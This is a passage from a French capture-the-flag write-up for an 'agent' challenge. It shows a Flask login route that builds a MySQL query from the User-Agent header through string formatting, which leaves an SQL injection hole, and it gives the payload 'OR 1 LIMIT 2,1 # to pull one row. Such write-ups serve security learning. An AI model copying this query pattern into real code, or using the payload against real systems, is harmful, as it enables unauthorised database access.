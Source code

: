 ```python
	return render_template("index.html")


@app.route("/login")
def login():
	u = request.headers.get("User-Agent")

	conn = mysql.connector.connect(pool_name="poolofagents",
					pool_size=16,
					**dbconfig)

	cursor = conn.cursor()

	for r in cursor.execute("SELECT * FROM Agents WHERE UA='%s'"%(u), multi=True):
		if r.with_rows:
			res = r.fetchall()
			conn.close()
			break



	if len(res) == 0:
		return render_template("login.html", msg="stop! you're not allowed in here >:)")

	if len(res) > 1:
		return render_template("login.html", msg="hey! close, but no bananananananananana!!!! (there are many secret agents of course)")


	return render_template("login.html", msg="Welcome, %s"%(res[0][0]))

if __name__ == '__main__':
	app.run('0.0.0.0')
```
La *difficulté* est qu'il faut que le résultat de la requête comporte plus d'un résultat. Ce que nous permet de faire le payload suivant: ```'OR 1 LIMIT 2,1 #```  

![Challenge](/img/angstrom_2020_agent_flag.png){: .center-image}
